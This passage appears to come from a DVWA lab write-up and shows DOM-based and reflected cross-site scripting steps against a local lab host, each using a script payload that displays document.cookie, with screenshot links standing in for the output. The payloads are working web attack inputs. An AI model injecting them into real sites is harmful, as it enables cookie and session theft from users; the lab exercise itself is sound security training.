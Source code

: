 output after the second one: dvwaSession = 2

![alt text](images/photo_17.png)

### DOM Based Cross Site Scripting (XSS)

input

```bash
http://192.168.10.3/vulnerabilities/xss_d/?default=<script>alert(document.cookie);</script>
```

output

![alt text](images/photo_18.png)

### Reflected Cross Site Scripting (XSS)

input

```bash
<script>alert(document.cookie);</script>
```
